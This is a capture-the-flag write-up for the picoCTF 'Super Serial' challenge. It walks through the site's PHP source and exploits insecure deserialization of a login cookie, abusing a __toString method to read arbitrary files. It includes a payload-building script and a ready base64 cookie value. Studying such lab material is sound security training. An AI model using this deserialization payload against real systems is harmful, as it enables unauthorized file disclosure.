



# Super Serial \(130\)

## Problem

Try to recover the flag stored on this website 



## Solution

If we go over to the robots.txt file, we can see that there is a page called `/admin.phps`



Navigating there, however, gives a Not Found error.

But if we navigate to `http://mercury.picoctf.net:3449/index.phps` \(append `s` to the index page\), we get the source code for `index.php` \(I guess `s` stands for source?\)

```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
    $con = new SQLite3("../users.db");
    $username = $_POST["user"];
    $password = $_POST["pass"];
    $perm_res = new permissions($username, $password);
    if ($perm_res->is_guest() || $perm_res->is_admin()) {
        setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
        header("Location: authentication.php");
        die();
    } else {
        $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
    }
}
?>
```

This reveals another page, `authentication.php`.

Similarly, we can view the source code by appending the `s`.

```php
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
    $msg = "Welcome admin";
    $log = new access_log("access.log");
    $log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
    $msg = "Welcome guest";
}
?>
```

Finally, the `require_once()` includes the `cookie.php` file. Let's view the source code:

```php
<?php
session_start();

class permissions
{
    public $username;
    public $password;

    function __construct($u, $p) {
        $this->username = $u;
        $this->password = $p;
    }

    function __toString() {
        return $u.$p;
    }

    function is_guest() {
        $guest = false;

        $con = new SQLite3("../users.db");
        $username = $this->username;
        $password = $this->password;
        $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
        $stm->bindValue(1, $username, SQLITE3_TEXT);
        $stm->bindValue(2, $password, SQLITE3_TEXT);
        $res = $stm->execute();
        $rest = $res->fetchArray();
        if($rest["username"]) {
            if ($rest["admin"] != 1) {
                $guest = true;
            }
        }
        return $guest;
    }

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
    catch(Error $e){
        die("Deserialization error. ".$perm);
    }
}

?>
```

### Exploit

OK. A few things to note here. The cookie.php file is included in every page. The following code segment will deserialize our cookie and print the object when an error occurs. \(`"Deserialization error. ".$perm`\)

```php
if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
    catch(Error $e){
        die("Deserialization error. ".$perm);
    }
}
```

Conveniently, the `access_log` class in authentication.php has the following `__toString()` method:

```php
    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
```

`__toString` is one of the PHP magic methods that override PHP's default behaviour. This method is called when the object is converted to a string. So if we could get the above `$perm` variable to be our custom `access_log` object, we could achieve arbitrary file read on the target system.

To do this, we simply serialize our custom `access_log` object, where we set `log_file` to `../flag`.

This can be done with the following script:

```php
<?php 

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    class permissions
    {
    public $username;
    public $password;

        function __construct($u, $p) {
            $this->username = $u;
            $this->password = $p;
        }

        function __toString() {
            return $u.$p;
        }
    }

    $serialized = serialize(new access_log('../flag'));
    $encoded = urlencode(base64_encode($serialized));

    var_dump($encoded);

    $perm = unserialize(base64_decode(urldecode($encoded)));

    var_dump($perm);
?>
```



Now, we add `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` as the `login` cookie on our browser and go to `authentication.php`. Note that we need to use `authentication.php` because that is the file where the required `access_log` class is defined.

Now back to this code:

```php
if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
```

Our custom `access_log('../flag')` object will be deserialized into `$perm`.

```php
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
```

This will most definitely generate an error because the `access_log` class has no such methods.

```php
    catch(Error $e){
        die("Deserialization error. ".$perm);
    }
}
```

This will catch the error and concatenate `$perm` to the `"Deserialization error. "` string. In doing so, `$perm` is converted to a string. This invokes the `__toString()` method which reads `../flag`!



The flag will be printed on our browser.

